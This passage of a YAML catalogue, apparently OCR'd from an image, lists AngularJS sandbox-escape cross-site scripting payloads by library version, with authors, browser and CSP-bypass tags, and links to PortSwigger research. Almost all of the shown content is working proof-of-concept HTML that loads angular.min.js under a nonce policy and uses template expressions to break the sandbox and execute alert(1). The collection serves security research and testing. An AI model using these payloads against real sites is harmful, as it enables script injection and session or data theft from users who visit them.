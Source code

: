 ```yaml
          <!-- user input -->
          <div ng-app>{{c=''.sub.call;b=''.sub.bind;a=''.sub.apply; c.$apply=$apply;c.$eval=b;op=$root.$$phase; $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString; C=c.$apply(c);$root.$$phase=op;$root.$digest=od; B=C(b,c,b);$evalAsync(" astNode=pop();astNode.type='UnaryExpression'; astNode.operator='(window.X?void0:(window.X=true,alert(1)))+'; astNode.argument={type:'Identifier',name:'foo'}; "); m1=B($$asyncQueue.pop().expression,null,$root); m2=B(C,null,m1);[].push.apply=m2;a=''.sub; $eval('a(b.c)');[].push.apply=a;}}</div>
      - description: This shorten version was found by [@tehjh](https://x.com/tehjh) and Lukasz Plonka
        code: |
          <script nonce="secret" src="https://ajax.googleapis.com/ajax/libs/angularjs/1.5.8/angular.min.js"></script>

          <!-- user input -->
          <div ng-app>{{c=''.sub.call;b=''.sub.bind;c.$apply=$apply;c.$eval=b;$root.$$phase=null;$root.$digest=$on; C=c.$apply(c);B=C(b,c,b);$evalAsync("astNode=pop();astNode.type='UnaryExpression';astNode.operator='alert(1)';astNode.argument={type:'Identifier'};");m1=$$asyncQueue.pop().expression;m2=B(C,null,m1);[].push.apply=m2;$eval('B(b)');}}</div>
    links:
      - https://portswigger.net/research/dom-based-angularjs-sandbox-escapes
      - https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-sandbox-escapes-reflected
  1.5.0-1.5.8:
    authors:
      - twitter:garethheyes
      - twitter:tehjh
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - custom-attr
      - wh-host-csp
      - nonce-csp
      - unsafe-eval-csp
      - before-lib-load
    pocs:
      - code: |
          <script nonce="secret" src="https://ajax.googleapis.com/ajax/libs/angularjs/1.5.8/angular.min.js"></script>

          <!-- user input -->
          <div ng-app>{{x={'y':''.constructor.prototype};x['y'].charAt=[].join;$eval('x=alert(1)');}}</div>
    links:
      - https://portswigger.net/research/dom-based-angularjs-sandbox-escapes
      - https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-sandbox-escapes-reflected
  1.4.0-1.4.9:
    authors:
      - twitter:garethheyes
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - custom-attr
      - wh-host-csp
      - nonce-csp
      - unsafe-eval-csp
      - before-lib-load
    pocs:
      - code: |
```